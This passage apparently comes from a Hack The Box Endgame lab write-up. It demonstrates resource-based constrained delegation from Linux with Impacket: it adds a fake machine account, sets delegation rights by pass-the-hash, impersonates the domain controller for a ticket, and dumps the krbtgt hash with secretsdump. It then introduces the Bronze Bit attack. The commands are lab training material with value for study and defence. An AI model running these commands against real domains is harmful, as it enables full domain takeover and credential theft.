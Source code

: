 [![rbcd-windows-5.png](/assets/images/htb/endgames/rpg/rbcd-windows-5.png)](/assets/images/htb/endgames/rpg/rbcd-windows-5.png)
{:.center-image}

## RBCD from Linux

The same result can be achived even easier from Linux using Impacket and [rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions) to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` property authenticating to LDAP via PtH (the `$` sign in machine account names can be omitted in every command).

```
$ proxychains4 -q addcomputer.py -computer-name 'AnotherFakeMachine1$' -computer-pass 'Passw0rd!' -dc-ip 192.168.125.128 -dc-host SHINRA.roundsoft.local 'roundsoft.local/athompson:sshhiinnoobbii!!'
$ proxychains4 -q ./rbcd.py -t 'CN=shinra,OU=Domain Controllers,DC=roundsoft,DC=local' -d roundsoft.local -c 'CN=AnotherFakeMachine1,CN=Computers,DC=roundsoft,DC=local' -u jops -H f7b8e6e5af23f06fdbb559d1888261fa:f7b8e6e5af23f06fdbb559d1888261fa -l 192.168.125.128

$ proxychains4 -q getST.py -spn ldap/SHINRA.roundsoft.local -impersonate 'SHINRA$' -dc-ip 192.168.125.128 'roundsoft.local/AnotherFakeMachine1$:Passw0rd!'

$ export KRB5CCNAME='/root/tools/rbcd_permissions/SHINRA$.ccache'
$ proxychains4 -q secretsdump.py shinra.roundsoft.local -just-dc-user 'ROUNDSOFT\krbtgt' -dc-ip 192.168.125.128 -no-pass -k
```

[![rbcd-linux.png](/assets/images/htb/endgames/rpg/rbcd-linux.png)](/assets/images/htb/endgames/rpg/rbcd-linux.png)
{:.center-image}

It's also a good chance for practicing the Bronze Bit attack ([1](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/), [2](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)). I will use [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372) here to calculate the AES key for our fake machine account, but it can also be done with Mimikatz `kerberos::hash` like in the original research.
